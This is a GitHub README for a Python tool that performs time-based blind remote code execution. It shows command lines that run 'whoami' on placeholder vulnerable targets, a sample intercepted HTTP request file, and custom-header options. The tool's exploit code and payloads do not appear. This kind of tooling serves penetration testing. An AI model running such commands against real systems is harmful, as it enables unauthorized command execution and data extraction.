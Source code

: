 <h1 class="code-line" data-line-start=0 data-line-end=1 ><a id="Time_Based__Blind_Remote_Code_Execution_RCE_0"></a>Time Based / Blind Remote Code Execution (RCE)</h1>
<p class="has-line-data" data-line-start="4" data-line-end="5">A Python-based program for Time-based/Blind Remote Code Execution (RCE). The main objective of this program is to extract the data that is not visible and/or not returned in the response of vulnerable target. It uses time-based techniques by sending a payload to the target with a command specified and then waiting for its response.</p>
<h5 class="code-line" data-line-start=6 data-line-end=7 ><a id="DEMO_6"></a>DEMO</h5>
<p class="has-line-data" data-line-start="2" data-line-end="3"><a href="thejolotoproject.com"><img src="https://github.com/thejolotoproject/blind-rce/blob/master/docs/demo.gif" alt="N|Solid"></a></p>
<br/>
<p class="has-line-data" data-line-start="10" data-line-end="11">There are two ways to execute.</p>
<p class="has-line-data" data-line-start="10" data-line-end="11">By Arguments:</p>
<pre><code class="has-line-data" data-line-start="13" data-line-end="15" class="language-sh">python rce.py -t <span class="hljs-string">"https://www.site.com?vuln="</span> -c <span class="hljs-string">"whoami"</span> -m <span class="hljs-string">"POST"</span>
</code></pre>
<p class="has-line-data" data-line-start="15" data-line-end="16">By File:</p>
<pre><code class="has-line-data" data-line-start="17" data-line-end="19" class="language-sh">python rce.py <span class="hljs-operator">-f</span> <span class="hljs-string">"/locate/request.txt"</span> -c <span class="hljs-string">"whoami"</span>
</code></pre>
<p class="has-line-data" data-line-start="20" data-line-end="21"><code>/locate/request.txt</code></p>
<blockquote>
<p class="has-line-data" data-line-start="23" data-line-end="36">POST /vuln?x= HTTP/2<br>
Host: <a href="http://site.com">site.com</a><br>
Content-Length: 21<br>
Sec-Ch-Ua-Platform: “Linux”<br>
Accept-Language: en-US,en;q=0.9<br>
Content-Type: application/json<br>
Referer: <a href="https://site.com/vuln?x=">https://site.com/vuln?x=</a><br>
Accept-Encoding: gzip, deflate, br<br>
Priority: u=0, i<br>
{<br>
product_id:“507f1f77bcf86cd799439011”,<br>
category:“bar_foo”,<br>
}</p>
</blockquote>
<p class="has-line-data" data-line-start="37" data-line-end="38">Request Header File. We can get it from our Burpsuite, Caido, Http Header or Tamper…</p>
<br/>
<p class="has-line-data" data-line-start="40" data-line-end="41">Customized headers and the data you want to pass in your request.</p>
<pre><code class="has-line-data" data-line-start="43" data-line-end="45" class="language-sh">python rce.py -t http://site.com/vuln?x= -c <span class="hljs-string">"whoami"</span> -m <span class="hljs-string">"POST"</span> <span class="hljs-operator">-d</span> <span class="hljs-number">10</span> --Headers <span class="hljs-string">"['X-Host: server.example.com', 'Authorization: Bearer eyJhbG']"</span> --json <span class="hljs-string">"{product_id:'507f1f77bcf86cd799439011',category:'bar_foo'}"</span>
</code></pre>
<br/>

<h5 class="code-line" data-line-start=6 data-line-end=7 ><a id="DEMO_6"></a>POC</h5>
<p class="has-line-data" data-line-start="2" data-line-end="3"><a href="thejolotoproject.com"><img src="https://github.com/thejolotoproject/blind-rce/blob/master/docs/poc.jpg" alt="N|Solid"></a></p>
<br/>
<p class="has-line-data" data-line-start="39" data-line-end="40">✨by: thejolotoproject ✨</p>
<h2 class="code-line" data-line-start=41 data-line-end=42 ><a id="License_41"></a>License</h2>
<p class="has-line-data" data-line-start="43" data-line-end="44">MIT</p>
